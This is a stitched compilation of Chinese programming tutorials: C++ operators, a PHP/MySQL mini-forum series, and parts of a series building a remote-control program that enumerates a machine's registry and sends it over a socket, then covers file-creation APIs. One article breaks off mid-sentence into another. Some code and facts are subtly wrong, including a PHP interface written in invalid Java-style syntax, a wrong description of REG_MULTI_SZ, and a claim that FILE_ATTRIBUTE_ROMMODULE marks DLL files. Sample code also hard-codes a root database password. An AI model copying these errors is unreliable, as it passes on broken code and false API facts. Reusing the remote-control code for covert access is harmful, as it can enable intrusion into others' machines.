好了，先说说基本运算。基本运算和小学学的一模一样，就是符号有点变化。加减的话，大家自己看看键盘，应该都能找到吧？至于乘除，我还真不知道这乘号除号要怎么才能用计算机很容易地打出来，所以乘号在程序里换成了“*”号，而除号换成了“/”号。这是基本的运算，不过还有一个运算要说一下，就是除法运算中涉及两个值，一个是除法结果，一个是余数。我们知道，在计算机中，整数和整数相除必定是个整数而不会是个小数。那么这就存在一个问题，3/2=? 这个大家一眼就能看出结果是 1.5，不过可以告诉大家，这个结果是错的，原因就是前面所说。要想得到 1.5 的结果，那么实际上的运算应该是 3.0/2.0。在计算机中，3/2 和 3.0/2.0 是不同的概念，一个是整数相除，一个是小数相除，这是不一样的。一个是整数运算，一个是小数运算，结果是完全不同的。那么，在整数运算中，就可能出现 3/2 除不尽的问题。对于这种情况，C++ 还有一个叫做取模运算符的符号“%”。说取模大家都不太懂，说下常用名就能听懂啦，这就是求余运算符。5/2 结果为 2，5%2 结果为 1，这就是我们的基本运算啦。

在 C++ 中，很多时候并不需要把值算出来才能算下一步，而是只要写出算式，程序就会将它视为一个值。比如说 3*2+1-5，这个式子本身就在程序中代表着一个值，这个值就是这个式子的执行结果。而这个式子又分成很多部分，每一个数字又是一个值，3*2 这个部分也代表着一个值。那么我们将这种代表某一个值的式子称之为表达式。我们写的每一个运算，不管多么复杂，都可以视为表达式，而表达式中还可以包含其他的表达式。上面这些话有些拗口，不过这也是对程序的一种理解思路。有了这个思路，后面才能走得顺风顺水。这里插几句牢骚话，计算机是机器，和人不一样，大家如果要以人的思维来考虑计算机上的问题，那你在这条路上将走得很苦；而如果你用计算机的思维来考虑问题，那你就能成为高手。编程学起来并不难，难就难在要学会去用计算机的思维，而不是我们生活的思维。这就是编程的难点，或者说学习计算机的难点。

好了，刚刚说完了我们的基本运算符，现在还有很多运算符要说一下。第一个就是比较运算符，既然是比较，那么很明显地，比较比较，肯定要有两个东西才能比。

而这比较，在数学中最直接的表现就是比比谁大谁小，也就是我们数学中的大于、小于和等于。大于符号和小于符号和数学中一模一样，就是“>”和“<”，不过等于就不一样了。我记得之前说过，计算机中的等于并不是“=”，而是“==”，两个等号才表示等于。我们说将表示一个值的式子称之为表达式，那么 3>2 算不算表达式呢？它代表着什么值呢？其实这个算表达式，它代表的值是这个式子是否成立，如果成立，它就代表 True，如果不成立，就代表 False。这种表示真假的式子，我们称之为布尔表达式。所以，在计算机中，2>3 是一个正确的式子，它代表着 False 这个值。所以碰到这样的式子，计算机并不报错。那么除了大于小于和等于，还有三种情况，那就是大于等于、小于等于和不等于。程序中的大于等于就是用“>=”来表示，以此类推，小于等于就是“<=”，不等于的话，就是“!=”。

上面讲了算术和比较运算符（也称之为关系运算符），那么既然扯到关系运算符了，我们又要弄一个分类，就是逻辑运算符。逻辑运算符在我看来将其称之为关系运算符的连接符也不为过。这里我细说一下，逻辑运算符分三种：与（"&&"）、或（"||"）、非（"!"）。这几个运算符都只能对布尔表达式进行运算。“与”运算，在我们说话时的表现词一般就是“并且”。比如说，我今天说了一句：“如果今天不下雨并且出太阳，我就去玩魔兽。”前半句有两个布尔表达式，第一个是“今天不下雨”，第二个是“今天出太阳”。如果说完这话，外面开始下雨了，那么大家觉得我会去玩魔兽么？或者说，今天一天没下雨，但是一直都阴着，没出太阳，我同样不会去玩魔兽。这个只是很小的例子，如果我不食言，那我肯定是不会去玩魔兽的，不过根据我的性子，每天还是会去玩一会的……咳咳……不过这里我要给大家说的是，逻辑运算“与”就是强调：必须两个条件都满足，这个运算符的结果才为真。说来说去，绕了半天，与运算就是将两个布尔值进行一个运算，然后变成一个布尔值。至于三个运算的规则，我这里整理一个与运算的表给大家：

| 表达式1 | 表达式2 | 结果 |
|---|---|---|
| 真 | 真 | 真 |
| 真 | 假 | 假 |
| 假 | 真 | 假 |
| 假 | 假 | 假 |

“与”运算总的来说就是，只要有一个为假，那么结果就为假。或运算呢，是只要有一个为真，则结果为真。运算表如下：

| 表达式1 | 表达式2 | 结果 |
|---|---|---|
| 真 | 真 | 真 |
| 真 | 假 | 真 |
| 假 | 真 | 真 |
| 假 | 假 | 假 |

至于非运算，就不是比较性质的运算了，总的来说算是取反运算：

| 表达式 | 结果 |
|---|---|
| 真 | 假 |
| 假 | 真 |

好了，那么这就是逻辑运算符。这些运算符都可以用在表达式中，但是运算下来有什么用呢？这些值要怎么来用呢？那么最简单的使用就是把表达式的值存放到变量。结合上一章中学习的赋值表达式，我们可以掌握表达式的最基本使用。这里我给大家写几个例子吧，虽然都是很简单的例子，不过意在让大家明白各种表达式的写法。

算术运算符部分：

```c
int a=1+1;
int b=10-9;
int c=10*23;
int d=7/3;
int e=9%5;
```

关系运算符部分：

```c
bool a=1>2;
bool b=1<2;
bool c=1>=2;
bool d=1<=2;
bool e=1!=2;
```

（PS: bool 数据类型是布尔型，这个之前没有说过；就两种值，true 或者 false，用来存放布尔表达式的值，即布尔变量）

逻辑运算符部分：

```c
bool a=(1<2)&&(6>7);
bool b=(1>3)||(7>5);
bool c=!true;
```

这些都是一些简单的例子，大家可以心算一下每个变量的值为多少。写这些主要是给大家看看写法，数字都是我随便打的。

当然了，表达式可以任由大家组合，这个就要看大家的逻辑如何了。顺带说一下，因为运算符比较多，所以各个运算符之间也是有优先级的。小学时候就说过，先乘除，后加减，程序中也是一样的。这个就请大家自己去研究运算符的优先级问题。不过，数学中可以用括号来更改运算的优先级，程序中也是可以的。3+5*4 和 (3+5)*4 结果不一样，这个不用我多说了吧？不过有一点不一样的是：数学中小括号外面只能套中括号；C++ 中，小括号可以套无数小括号，`(((((3)+(4))+(5))*(7))/(8))`，这个式子一点错都没有，是正确的。所以大家可以完全自由地控制运算优先级别，不过前提是你要能看得过来那么多括号。所以，必要的优先级规则还是要知道的。

好了，内容差不多了。我呢，也不打算继续讲运算符，一步一步才能扎实，我还是继续贯穿一些理念吧。大家每天接触各种各样的软件，有大有小。有时，一个文本框，如果你往里面输入了不合适的东西，软件会弹出消息，告诉你输入有误。大家请注意我这里用到了“如果”这个词，出现这个词往往意味着判断：判断文本框里面输入的是不是正确的语句，是的话继续执行，不是就弹出消息，终止执行。通过我的这段描述，我觉得大家应该考虑到一个问题，我们之前所讲的所有东西，都是以顺溜的、执行完了程序就结束了，似乎并没有和用户的互动，或者说判断之类的。这些其实都是一个程序所必不可少的。怎么说呢，要让计算机和用户互动，那么就意味着一件事情：我们的要求要变为数据传送进计算机，这个过程我们称之为输入；而计算机执行我们的指令之后，运行出一个结果，通过某些方式返回到我们脑子中，我们称之为输出。最简单的输出，大家都知道，在屏幕上显示呗。总之，大家要明白这个输入和输出之间的区别，这是一个比较重要的术语，我们经常要用到。

除此之外，正如我所说，利用用户交互，就是不断的输入输出，让我们可以和计算机沟通，让计算机做我们想做的事情。不过，计算机在接到指令之后，还得判断它自己是否有能力做这个事情，或者说能不能做这个事情。比如说，假设有这么一个指令，叫做打人。那你发出指令，计算机怎么去执行？没手没脚的，根本没法做啊，所以我们的代码肯定要在计算机能执行的范围之内。如果计算机什么指令都毫不犹豫去执行，且不说它有没有那个能力执行，就算有，那不天下大乱了吗？所以，判断在计算机中也是无处不在的，一个简单的程序，里面可能就包含很多很多的判断。我们现在还没学习判断指令，不过这里之所以先说，就是因为判断和交互是一个程序最重要的部分，也希望大家能予以重视。这一章我说了很多废话，不过也不算是废话。既然我说了，就肯定有我的意义。当然，最直白的意义就是给大家打个预防针：我只是带大家入门，修行还得靠大家自己。修行的重点，自然要给大家说明白。大家现在都初学，说深的没意义，真正做到能随心所欲地和用户交互、判断程序执行情况，你才真的算是入了门。

好了，本章的内容就到这里吧，我们下一章接着讲。

## php实战教程（8）——SQL篇

影月

大家好，我们继续我们的 php 教程。我们首先看下上一章中出现的问题：我们无法获取 mysql 相关函数的错误消息。如果出错，我们将得不到提示而造成调试困难，这是我们所不希望看到的。

如果有其他语言基础的朋友可能会说，直接 try 就 OK 了。try 是大部分语言都会有的一种错误处理机制。语法为：

```php
try{
    // 代码段1
}catch(Exception e){
    // 代码段2
}
```

如何进行错误处理呢？首先，我们将可能会出现运行时错误的代码写在代码段1，如果出现了错误或者异常则执行代码段2。同时，会把错误信息整合为一个 Exception 的对象。大家注意到 catch 的后面我写了 Exception e，这就是指定异常对象的名字，以便引用。假设我们在代码段1中出错了，需要在代码段2中显示一下错误信息，就很简单了。

说了那么半天，说下重点：上面的代码在 PHP 中也可以使用，只是注意 catch 后面的异常对象名前面要加上 `$`，以满足 PHP 的变量命名规则。但是，这种错误处理机制并不能捕获 mysql 相关函数的运行时错误。我们通过这样的代码可以略作尝试：

```php
try{
    $link=mysql_connect('localhost','root','admin@aytce.net');
    mysql_select_db('bbs',$link);
}catch(Exception $e){
    echo '没有这个数据库';
}
```

我们发现页面并不会输出我们写的错误消息，说明我们的 try 语句根本没有捕获到异常。注意这里表面上看代码没错，但是实际上我数据库中并没有名为 bbs 的数据库，所以绝对会有错，但是我们发现并不会输出错误消息。这里我们只能进行手动处理。

那么如何捕获这些异常并正确输出呢？首先，我们还是先说一下判断是否出现错误。是否出现错误的判断很简单，每个函数执行失败之后都会有特定的返回值，我们只要通过返回值就能判断是否出错。至于错误消息的获取，我们有专门的函数：

mysql_error，函数原型如下：

```php
string mysql_error([ resource $link_identifier ])
```

这里返回值不用说啦，错误的描述文本（还说不用说，其实我自己都说掉了……）。至于参数，这个很简单，就是连接对象。这个参数用于有很多数据库连接的情况。我们可以通过传参来指定获取某一个连接最后发生的错误。一般我们就一个连接，所以省略掉，省略参数就会默认从最近打开的连接获取错误信息。

那么除了获取错误信息，我们还可以通过 mysql_errno 函数来获取我们的错误号，方便我们手动抛出异常。我们将代码改一下，手动抛出异常，这样就可以很轻松地捕获了。一般来说我比较喜欢这样写：

```php
try{
    $link=mysql_connect('localhost','root','admin@aytce.net');
    if($link==null) throw new Exception(mysql_error(), mysql_errno());
    if(!mysql_select_db('bbs',$link)){
        throw new Exception(mysql_error(), mysql_errno());
    }
}catch(Exception $e){
    echo '出错了！错误号：'.$e->getCode().' 信息：'.$e->getMessage();
}
```

这样表面上看没什么意思，但是实际上呢，我们在开发过程中是分层开发的，我们在其他层调用的时候能捕获到异常将会大大节省我们的工作量。这个是很重要的。

实际上学到现在，我可以很负责任地告诉大家，大家已经学会了 PHP 了，但是大家可能就发现，自己学会了 PHP 似乎还是啥也做不出来。没错，你们看到的所有 php 成品，并不是只有 PHP 技术在里面的，比如说一个 discuz 论坛，使用到的技术就包括 html+css 页面排版技术、javascript、ajax，等等等等。这些还只是明面上的技术，那么在其背后，还有软件架构设计、数据库设计等等。所以由此可见，一个成品网站，需要用到的技术有多少？可以说是数不胜数。大家学会 php，不过只是学会了相对重要的一门技术，但是并不意味着你就能做出好东西。

这些技术就暂时不说了，我们先来说一下常规网站的结构。现在最常见的最流行的结构无非就是所谓的三层结构。三层，哪三层呢？界面表现层、业务逻辑层和数据访问层。一般来说现在可能教材比较老的大学可能没有讲这些（有的大学还在教 foxpro 的我就不说了），一般只要接触 java 和 .net 的都会提到三层结构。

使用三层结构表面上看很麻烦，一个软件/网站分三层，会出现很多的类以及方法的调用。但是这样也有好处，可以使软件架构变得更清晰，逻辑性更强，最重要的是易维护、易扩展。现在大部分的技术已经不再注重写法和用法，而更多地就是围绕前面的六个字。所以很多时候考试，比如问某某框架的好处是什么，一般就是这六个字作为答案：“易维护，易扩展”。

那么三层结构如何体现出易扩展、易维护呢？假设我们写好一个网站，突然发现网站页面不好看，想改改，如果说按照常规写法，这一改可能涉及到整个数据的访问和逻辑，工作量就大大增加。但是三层结构就不存在这个问题。界面要改，换界面表现层即可；逻辑要改，改业务逻辑层即可；如果换了数据库，可能数据库访问代码不一样，那么我们改数据访问层即可，其他的都不用我们去考虑。这就是三层结构的优势所在。

那么，要如何来实现代码的分层化呢？这个很简单。说白了，数据访问层用于编写数据库访问代码，比如说从数据库查询用户之类的，肯定是写在数据访问层；业务逻辑层一般用来判断程序逻辑是否正确；而界面表现层就完全只有界面显示代码，没有多余的东西。

那么话说回来，根据我们上面的思路可以知道，一个用户的请求会先到达界面表现层，然后界面表现层调用相关的业务逻辑层代码，而业务逻辑层又去调用数据访问层的代码，实现一个三层的调用链。那么这也就有了一个规则：三层调用链中，绝对不能出现跨层调用。这是一个规则，虽然跨层调用不会报错，但是依然不要那样做，理由就和为什么起名字要符合规范一样。

那么除了网站结构之外，比较重要的就是数据库设计了。数据库的设计也是软件开发中很重要的一环，它直接关系到网站的架构设计以及实现。一个失败的数据库设计可能会造成网站/软件越写越困难，甚至到最后直接无法再写下去，导致重构。重构对于一个公司来说，会蒙受不小的损失。不过这个的确难免，包括我们知道的世界第一游戏公司暴雪，开发过程中同样也会出现重构的情况。不过总体来说，我们要尽一切可能避免重构。所以这也是为什么数据库设计师和软件架构师都挺受重视。架构师不用写多少代码，代码都是给程序员来完成的。

好了，说了那么多废话，我这里就来简单带大家做一个小系统吧。我们只要做一个很简单的论坛即可。既然一个论坛，大家肯定第一时间要想到注册、登录、发帖、回帖四个功能。那么我们先来看下数据库的设计。

首先，既然有注册、登录功能，那么必然会有一个用户表用来存放用户数据。一个用户必然有用户名、密码、昵称等等。我这里就先定这几个字段就好了。除此之外，我们还要注意，一般来说，我们会给每一个表设定一个主键，用于作为我们每条数据的唯一标识。所以我们几乎所有网站系统都有用户 ID 的概念，那么说白了，我们这里就是 4 个字段。

首先新建一个名为 bbs 的数据库，执行如下 SQL 语句新建一个数据库：

```sql
create database bbs;
```

接下来就是建表，执行一下代码建立一个名为 tb_user 的表：

```sql
create table bbs.tb_user(
    id int primary key AUTO_INCREMENT,
    user_name varchar(10) not null,
    user_pwd varchar(20) not null,
    nick_name varchar(20) not null
);
```

这里简单说一下吧：以前的文章只是简单说了一下 SQL 语句的增删改查，今天我们就可以详细来看下对数据库的建库建表操作。建库大家应该没啥问题，关键是建表。建表的语法为：

```sql
create table 目标数据库.表名(
    字段名 字段类型 [附加属性]
)
```

那么这就是建表的基本语法。大家看到我建表代码的第一个字段为 id，类型为 int，后面还有两个关键词，一个就是 primary key，这个关键词的作用是将 id 设置为主键；后面的 AUTO_INCREMENT 表示这一列自增长。比如说我们不希望自己管理主键，希望数据库每次增加数据的时候自动为我们生成主键。这样可以保证主键的唯一性和连续性。

后面几个字段比如用户名、密码、昵称一般来说都是字符串，我们使用 varchar 类型的话，可以节省一部分空间，varchar 会根据数据长度自动更改占用空间。varchar 后面的括号中写的是数据的最大长度。如果涉及大数据量的字符串，建议使用 text 类型。后面几个字段后面都跟了 not null，这是指定该字段的数据不能为空。用户表就先说到这里了。

好，接下来还有两张表：一张主题表，用于存放主帖；一张回帖表，用于存放回复。主题表自然应该也有 id，这个 ID 一般不会在页面上出现，不过在以后生成静态文件或者其他功能的时候，可能会用到。还有一点，一个帖子肯定是一个用户发的，对吧？那么这就是我们的主题表和用户表之间的关联，具体我们看下表设计再细说：

```sql
create table bbs_tb_topic(
  id int primary key AUTO_INCREMENT,
  user_id int not null,
  title varchar(50) not null,
  content text
)
```

```sql
create table bbs_tb_reply(
  id int primary key AUTO_INCREMENT,
  user_id int not null,
  topic_id int not null,
  content text
)
```

这里依然是一个帖子 ID，然后后面跟了一个 user_id 的字段，用于存放作者的 ID，以便我们和用户表相关联，title 和 content 自然就是帖子标题和内容。这里我没有做发帖时间，大家如果要做帖子排序的话，可能需要做下发帖时间之类的东西。主题表就这样啦，最后就是一张回复表。回复表的数据就涉及与前面两个表相关联的情况，第一就是回帖的作者我们需要记录，那么就有一个 user_id 的字段；除此之外，还有一个是回帖所对应的主题。

根据上面的解释，这张表应该也没有什么可以说的了。那么这是最简单的一个表设计，其中也有很多不完善的地方。这是我没有任何依据地设计，没有添加更多的约束，数据库高手就不要挑刺了哈。上面的一大堆啰嗦的话，让我又耗费了大量篇幅，本章的数据库就设计到这里吧。具体后面怎么做，我们下一章继续哈。

## php实战浅谈（9）——SQL篇

大家好，又到了学习 php 的时间咯！今天我们继续来开发我们的超简单的 MINI 论坛系统。在上一章中，我们主要说了一下数据库的设计，数据库设计完成，接下来就开始写代码啦。

那么，我们知道，在 php 中，所有代码都是放在一起的，不像 JAVA，是页面和源文件分开的。那么也就是说，我们要区分 php 文件的用途。一般都是采用一种方法，就是用目录来区分。比如说，界面表现层的代码就专门放到一个文件夹，而业务逻辑层的代码又专门放到一个文件夹，等等。

好了，废话不多说。首先，我这里也这样分：建立一个 source 的目录用于存放业务逻辑和数据访问层代码；index 目录用来存放前台页面，而 admin 目录用于存放后台管理页面。source 下面再建立一个 dao 目录用于存放数据访问层代码，一个 service 目录用于存放业务逻辑层代码，一个 entity 目录用来存放实体类代码。

一个用户对应一个对象，用户就要有用户类，不然你怎么创建对象去？实体类怎么写？很简单，就是新建一个类，然后把用户表中的字段一一对应为类的属性即可。这个相信应该都难不住大家。很多项目中，dao 下面往往不是你写的代码，而是项目设计人员写的代码。项目设计人员会在 dao 目录和 service 目录下建立接口。

那么简单说一下 php 中的接口。接口在 php 中的定义和类差不多，只是关键字有所区别：类的关键字是 class，而接口的关键字是 interface。另外一点，就是接口中可以定义方法，但是这些方法通常只定义约束，不写具体实现，不能去写方法体。比如说，我们觉得 UserDao 这个接口中应该有个方法叫做 login，那么我们就定义一个接口：

```java
interface UserDao{
    public function login(User user);
}
```

那么可能很多人要问了，代码都没写，这电脑怎么知道要执行哪些操作？别急，我们首先来看下：接口只是一个规范，是用来约束类的，保证类不会写错或者是写漏功能的。既然有了约束，我们在类中肯定要告诉计算机，我们这个类是以什么接口为规范的是吧？

好，我们现在在 dao 目录下建立一个叫做 impl 的目录，用来存放我们写的类。好了，一个类要如何实现一个接口呢？很简单，就是用 implements 关键字即可。代码如下：

```java
class UserDaoImpl implements UserDao {
}
```

这样的代码写好之后大家肯定就发现，报错了。这是为什么呢？就是因为我们的接口里面有 login 方法，但是在我们的 Dao 类里面没有 login 方法的实现。也就是说计算机根本不承认你做的 U 盘是合格的，所以报错。那么我们就需要在这里添加一个 login 方法的实现。注意不是只要有 login 就可以，而是参数这些都要一样，否则电脑是不认的。好，那么大致就是这样了……

根据常规思路，大家很可能就开始写 login 的代码啦：首先 mysql_connect，然后 mysql_select_db……但是大家发现没有，其实我们每次连接数据库都执行了相同的操作，都得去写获取资源标识符的代码，都得去选择数据库，一模一样的代码，为何不考虑稍作简化呢？……在面向对象的编程中，我们有一个很经典的关系，就是继承……

如果是 public，那么该方法/属性可以在任何地方调用/访问。就比如说家里的瓶子杯子，无关紧要的东西，别人可以来借用，父母去世，我们还可以接着用，不会扔掉。根据这个例子，也就是说，public 标记的属性/方法可以被外部访问/调用，也可以被继承。

protected 呢，就是受保护的，比如说家里的金项链、钻戒……一般来说不可能借的，不过父母的金项链和财物，同样在去世后我们可以继承。总结下来，就是 protected 标记的方法/属性不可以被外部访问/调用，但是可以被继承。

还有一个 private……也就是说，private 标记的属性/方法，不能被外部访问/调用，只能供自己的其他方法访问/调用。

说了一大通，说白了，其实就是告诉大家：如果大家不希望每次操作数据库的时候都写那些重复的代码，那就可以尝试写个父类，然后在父类中整合一个方法来专门获取资源标识符。我这里建了一个类叫做 BaseDao，同时建了一个方法叫做 getLink……现在写 login 里面的代码……这个代码之前讲过的。

好了，那么 Dao 接口的 login 方法已经实现。我们现在又要做一件事，就是业务逻辑层……业务逻辑层调用数据访问层……同样的，业务逻辑层也是有接口、有实现。具体怎么做，我不多说，就是一个 UserService 接口，一个 UserServiceImpl 类……

好了，现在我们就剩下最后一个啦，就是表现层。表现层的内容很简单：做两个文本框，做一个提交按钮即可。那么我是在首页做的登录框，现在我们把它提交到 login.php，login.php 调用业务逻辑判断是否登录成功。我们来试试，输入错误的用户名和密码：


输入正确的用户名和密码，提示：欢迎你：admin，如图 2：


图2

好了，总的来说，我们的三层结构大致就是这样啦，这是最简单的一个功能……本章就到这里吧，我们下个月再见。

# 小心驶得万年船（8）

## ——注册表的管理

影月

大家好，我们继续来看我们的远控……那么，首先来看下遍历值的函数吧：

```c
LONG RegEnumValue(
  HKEY hKey,
  DWORD dwIndex,
  LPWSTR lpValueName,
  LPDWORD lpcchValueName,
  LPDWORD lpReserved,
  LPDWORD lpType,
  LPBYTE lpData,
  LPDWORD lpcbData
);
```

- 1. hKey：这个是键的句柄，这个很简单。
- 2. dwIndex：这是值的索引，和 RegEnumKey 用法一样。
- 3. lpValueName：这个是个指针，用于返回值的名称。
- 4. lpcchValueName：这个是个 DWORD 的指针，用于返回值名称的长度。
- 5. lpReserved：预留，永远设置为 NULL。
- 6. lpType：这是一个 DWORD 的指针，用于返回值的类型，类型有以下几种：
  - 1) REG_BINARY：表示这个值是二进制数据。
  - 2) REG_DWORD：表示这个值为一个 32 位的整数。
  - 3) REG_DWORD_LITTLE_ENDIAN：这个和 REG_DWORD 是一样的。
  - 4) REG_DWORD_BIG_ENDIAN：一个 32 位整数，只是逆序存储。
  - 5) REG_EXPAND_SZ：一个包含环境变量的字符串。
  - 6) REG_LINK：一个符号链接。
  - 7) REG_MULTI_SZ：一个双字节字符串。
  - 8) REG_NONE：未定义的数据类型。
  - 9) REG_RESOURCE_LIST：一个设备驱动的资源列表。
  - 10) REG_SZ：一个 null 结尾的 UNICODE 字符串。
- 7. lpData：这是一个 BYTE 类型数据指针，用于返回值的数据。
- 8. lpcbData：这是一个 DWORD 类型的指针，用于返回数据的大小。

好了，用法其实和 RegEnumKey 差不多……根据这个思路，大家可能会写出这样的代码：

```c
DWORD type=0, datalen=1024, namelen=1024;
```

```cpp
BYTE vdata[1024];
i = 0;
while (RegEnumValueW(hParentKey, i, temp, &namelen, NULL, &type, vdata, &datalen) != ERROR_NO_MORE_ITEMS)
{
    SocketData *sdata = new SocketData();
    SocketRegData *rData = new SocketRegData();

    sdata->MSGID = REG_MGR_VALUE_INFO;
    rData->hParent = regdata->hParent;
    rData->TYPE = type;
    memcpy(rData->pName, temp, 1024);
    memcpy(rData->pValue, vdata, 1024);
    memcpy(sdata->vBuffer, rData, sizeof(SocketRegData));

    send(sock, (char*)sdata, sizeof(SocketData), 0);
    i++;
    delete sdata;
    delete rData;
}
```

后的运行结果哈，如图2：

图1

图2

这样表面看没错，但是大家就会发现，有一个悲剧的事情：第一轮循环可以正确读出数据，而第二轮循环数据就再也读不出来了。这个写法和之前我们遍历键的写法是相同的，但是为什么就会出现这样的问题呢？

我们不妨定义一个变量尝试接收一下 RegEnumValue 的返回值，我们很快就会发现这个返回值是 234。查询错误码之后，我得到这样的信息：234 对应的错误为 ERROR_MORE_DATA。意思就是说我们给的缓冲区太小。我把缓冲区改大了很多倍之后，依然返回 234。这里我就比较纠结了，查了半天，终于找到了原因。

这是因为 RegEnumKey 这个函数中传入的是缓冲区大小的指针，而 RegEnumValue 在执行的时候会判断：如果这个值太小，直接终止并返回错误码；如果值够大，继续执行，并把传入的指针设置为实际的数据大小。这样一来，第一次我们设置的值有 1024，当然可以执行；执行完以后，我们的缓冲区大小数值会被设置为实际返回数据的长度。第二次执行时，在判断的时候，如果下一个值的数据大小大于第一个值，就会停止执行，直接返回错误码。所以，我们在最后要将 datalen 和 namelen 重置回 1024，否则就会出现这样的错误。这个错误困了我很长一段时间才找到，就是因为我的常规思维造成的。

好了，那么数据返回的代码是没问题了，这下又到了客户端处理的环节。现在先看看我们的程序执行结果，如图1：大家看到现在我们的键和值是一样的图标，我们第一件事情肯定就是换图标啦。这里的处理就相当简单了，参见以前的代码就可以，这里我也不多说咯。

好了，那么现在我们倒是基本上完成了注册表的遍历功能。不过呢，既然称之为注册表管理，那么我们的程序肯定不只包含遍历，而是要包含增加、修改和删除。我这里并不打算继续带大家做后面的功能，毕竟逻辑最困难的我已经带大家做了，后面的功能基本上没什么了。下面我再给大家介绍一下注册表其他的操作函数。

这里我们说了要包含增加、修改和删除，那么自然会介绍相关函数给大家方便完善功能。第一个，注册表分键和值，那么我们自然要有两个不同的函数分别添加键和值。好了，那么来看下键和值的新增加函数。这里我新建一个控制台应用程序来给大家演示吧。

新建一个键的函数是 RegCreateKey，参数很简单，大家看下函数原型：

```cpp
LONG WINAPI RegCreateKey(
  _in   HKEY hKey,
  _in   LPCTSTR lpSubKey,
  _out  PHKEY phkResult
);
```

这里的参数，第一个当然是已经打开的一个键的句柄，也可以是预定义好的句柄；第二个相信大家都知道，这是要建立的键名；最后一个参数是输出参数，用来获取返回的新建完成的句柄。这里我在控制台中写下了这样的代码：

```cpp
HKEY key;
if (RegCreateKey(HKEY_CURRENT_USER, L"TestCreateKey", &key) == 0)
    _tprintf(_T("成功"));
```

```c
getchar();
```

注意执行之后，在 regedit 中是不能立即看到的，要重启 regedit 后才能看到。执行之后，我们看下结果吧，如图3：

图3

设置值的函数自然也很简单。设置，英文是 Set；值英文是 Value；而又是对注册表进行操作，就是 Reg，整合起来就是 RegSetValue。看下函数原型吧：

```c
LONG RegSetValueEx(
    HKEY hKey,
    LPCWSTR lpValueName,
    DWORD Reserved,
    DWORD dwType,
    const BYTE* lpData,
    DWORD cbData
);
```

这个函数第一个当然是键的句柄，第二个是值的名称，第三个是预留参数，设置为 NULL，第四个参数是值的类型，第五个是值的数据指针，第六个是值的大小，用于设置已经存在的值的数据。

这是两个修改值的函数，那么我们还有删除函数：

```c
LONG RegDeleteKey(HKEY hKey, LPCWSTR lpSubKey);
```

这是删除键的函数，参数是父键的句柄和要删除的子键名。

```c
LONG RegDeleteValue(HKEY hKey, LPCWSTR lpValueName);
```

同样的，这是删除值的函数，和 RegDeleteKey 的参数形式相似。

最后就是查询，这个也没什么好说的，一看函数原型都能明白：

```c
LONG WINAPI RegQueryValue(
    HKEY hKey,
    LPCTSTR lpSubKey,
    LPTSTR lpValue,
    PLONG lpcbValue
);
```

第一个是父键句柄，第二个是子键路径，第三个是用于返回的缓冲区，第四个是缓冲区大小。下一章我们讲什么呢？卖个关子，大家敬请期待。

## 小小的实现一个远控（9）——注册表的管理

影月

大家好，又到了我们编写远控的时刻了。在前面的 8 章中，我们已经完成了整个程序的框架和注册表管理的部分功能。在以后的稿子中，我将会省略数据包的处理过程，更专注于我们的程序逻辑。

# 月下孤笔

是这些操作。如果这些重复的东西每一章都讲解，估计“小小的实现一个远控”系列连载会连载到彭月成个老头。彭月还是比较想早点养老呢！

又扯废话了，唉，我真啰嗦。好了，现在来说我们今天的内容。远控除了注册表管理，文件管理也是一个必不可少的功能。文件处理方面，既然是远程文件处理，那么新建文件处理的数据包类肯定是不用说，我希望大家能根据自己的需求来创建数据包，这样可以让大家以后能够自主地去开发软件。

好了，一个一个来说吧。增加文件的代码，我简单介绍一下 API。文件处理方面的 API 参数相对都比较多、比较麻烦，这是很正常的。在 C 语言中，文件处理函数是最简单的。而 C 语言的函数同样可以在 C++ 使用，我简单介绍一下：

```c
FILE *fopen(
    const char* filename,
    const char* mode
);
```

这是 C 语言中常见的文件读写函数。为了方便，创建文件往往都是通过打开文件的函数来一并实现。我们说了，fopen 是打开文件的函数，但是通过指定模式，就可以实现创建文件的功能。文件名这里一般要包含路径，如果不包含，就会在 exe 所在目录下创建文件。我简单说下第二个参数的几种取值吧：

- `"r"`：以读取模式打开文件，如果文件不存在，函数将执行失败。
- `"w"`：以写入模式打开一个文件，如果文件存在，则会清空文件内容。
- `"a"`：以追加模式打开一个文件，如果文件不存在，则创建该文件，这种模式不会移除文件结束符。
- `"r+"`：以读取和写入模式打开文件，指定文件必须存在，否则会执行失败。
- `"w+"`：以读取和写入模式打开文件，如果文件存在，则会清空文件内容。
- `"a+"`：以读取和追加模式打开文件，如果文件不存在，则会创建文件，这种模式会先移除文件结束符，在追加操作完成后再加上结束符。

那么，大家应该很明白，`w`、`w+`、`a`、`a+` 模式在文件不存在的时候都会创建文件。这就是最简单的一种创建文件的方式了。这种方式比较简单，我这里贴个例子吧：

```c
fopen("D:\\test.txt", "w");
```

执行这行代码之后，就会在 D 盘创建一个名为 test.txt 的文件。好了，除了 fopen 之外，还有很多方法可以创建文件，我们看下一种：

```c
HANDLE CreateFile(
    LPCTSTR lpFileName,
    DWORD dwDesiredAccess,
    DWORD dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD dwCreationDisposition,
    DWORD dwFlagsAndAttributes,
    HANDLE hTemplateFile
);
```

这个函数够复杂吧？第一个参数是文件名，这个大家应该都能想到。

第二个参数是需要的权限，有三种取值：0（可获取设备属性）、`GENERIC_READ`、`GENERIC_WRITE`。

第三个参数 ShareMode，这是一种共享模式。就是说当执行了这个函数之后，在句柄没有关闭前，其他应用程序是否可以对文件进行操作；如果设置为 0，文件将被锁死。另有 `FILE_SHARE_READ` 和 `FILE_SHARE_WRITE`。

第四个参数我很喜欢，因为它被微软忽略了，直接设置为 `NULL`。

第五个就比较麻烦了，这是对打开模式的设定。取值如下：

- `CREATE_NEW`：新建文件，如果文件存在将执行失败。
- `CREATE_ALWAYS`：总是新建文件，如果文件存在，原文件将被覆盖。
- `OPEN_EXISTING`：打开文件，如果文件不存在，将执行失败。
- `OPEN_ALWAYS`：总是打开文件，如果文件不存在，则新建。
- `TRUNCATE_EXISTING`：此操作必须将第二个参数设置为 `GENERIC_WRITE`，执行后原文件将被清空，如果文件不存在，则执行失败。

第六个参数是文件属性，常见取值：

- `FILE_ATTRIBUTE_ARCHIVE`：设置文件存档属性。
- `FILE_ATTRIBUTE_COMPRESSED`：标记文件是否被压缩。
- `FILE_ATTRIBUTE_HIDDEN`：设置文件为隐藏。
- `FILE_ATTRIBUTE_NORMAL`：只能单独使用，有了此项则文件不包含其他任何属性。
- `FILE_ATTRIBUTE_READONLY`：设置文件为只读。
- `FILE_ATTRIBUTE_SYSTEM`：设置文件为系统文件。
- `FILE_ATTRIBUTE_ROMMODULE`：标记文件为 dll 文件。
